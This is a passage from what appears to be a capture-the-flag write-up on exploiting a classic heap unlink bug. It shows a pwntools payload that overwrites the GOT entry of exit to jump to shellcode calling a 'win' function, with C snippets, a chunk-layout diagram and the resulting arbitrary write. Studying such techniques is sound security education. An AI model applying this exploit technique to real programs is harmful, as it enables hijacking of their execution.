 Let's continue with the example:

```c
sixth=malloc(256);
```

The pointer returned by the heap manager is the same pointer as `first`.

Now we get a change to copy our payload:

```c
puts("You should enter the got and the shellcode address in some specific manner... an overflow will not be very useful...");
gets(sixth);
```

We'll enter the following payload:

```python
payload = p32(exe.got["exit"] - 12) + p32(address + 8) + asm('push {}; ret;'.format(hex(exe.symbols["win"])))
```

This will cause the buffer to look like:
```
                                Buffer                          Casting to free chunk
                                +------------------------+---+  +------------------------+---+
                                | Size of chunk          | 0 |  | Size of chunk          | 0 |
Pointer returned by malloc -->  +------------------------+---+  +------------------------+---+
                                | exe.got["exit"] - 12       |  | Forward Pointer            |
                                +----------------------------+  +----------------------------+
                            +---| address + 8                |  | Back Pointer               |
                            +-> +----------------------------+  +----------------------------+
                                | push 'win'; ret;           |  | Unused                     |
                                |                            |  |                            |
                                +                            +  +----------------------------+
                                |                            |  | Size of chunk              |
                                +----------------------------+  +----------------------------+
```

We add 8 bytes to `address` (which is the base address of the first/sixth/seventh buffer) since that's where we located our shellcode, right after `p32(exe.got["exit"] - 12) + p32(address + 8)`.

We continue with:
```c
seventh=malloc(256);
```

Again, the same buffer is retrieved from the bin and therefore should be removed from the linked list by calling `unlink`:
```c
FD = P->fd;  // FD points to (exe.got["exit"] - 12), since that's the value we overran the buffer with
BK = P->bk;  // BK points to (address of first/sixth/seventh + 8), since that's the value we overran the buffer with
FD->bk = BK; // (exe.got["exit"] - 12) + 12 = (address of first/sixth/seventh + 8); We wrote an arbitrary DWORD to an arbitrary location
BK->fd = FD; // (address of first/sixth/seventh + 8) + 8 = (exe.got["exit"] - 12); Side effect
```
